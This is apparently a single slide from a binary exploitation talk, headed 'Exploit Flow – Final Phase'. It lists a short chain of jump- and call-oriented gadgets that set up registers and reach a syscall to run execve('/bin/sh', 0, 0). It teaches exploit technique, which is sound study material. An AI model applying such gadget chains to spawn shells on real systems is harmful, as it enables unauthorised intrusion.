

# Exploit Flow
Final Phase
execve(‘/bin/sh’, 0, 0)
[*] rsi and rax are in use for the loop

=> Use another register to replace rax and setup 3 continuous jumps until syscall

pop rsi ; jmp rax
pop rax ; call r15
syscall
pop r15 ; jmp rax
pop rbx ; jmp rax
pop rax ; mov rdi, qword ptr [rsp + 0x50] ; call rbx